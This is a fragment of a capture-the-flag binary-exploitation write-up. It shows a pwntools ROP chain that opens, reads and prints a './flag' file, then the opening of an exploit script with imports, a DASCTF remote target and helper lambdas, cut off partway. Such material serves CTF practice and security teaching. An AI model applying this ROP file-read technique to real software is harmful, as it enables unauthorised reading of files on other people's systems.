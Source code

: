 ```bash
orw = p64(pop_rdi)+p64(stack_addr+0xd0)+p64(pop_rsi)+p64(0)+p64(open_addr)
#open(stack_addr+0xd0,0)
orw += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(elf.bss()+0x800)+p64(pop_rdx)+p64(0x50)+p64(elf.plt["read"])
#read(3,elf.bss()+0x800,0x50)
orw += p64(pop_rdi)+p64(elf.bss()+0x800)+p64(elf.plt["puts"])
#puts(elf.bss()+0x800)
orw = orw.ljust(0xa8,b'\0')+b'./flag\x00\x00'

orw+= p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(orw)
```

[![](assets/1701606597-5205391a08efb80f8c296a96580b3b41.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170529-49e6b12c-845f-1.png)

exp：

```bash
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
#from ae64 import AE64
#from LibcSearcher import * 

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('tcp.cloud.dasctf.com',23820)
else:
    p = process(name)

libcso = './libc.so.6'
#libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
```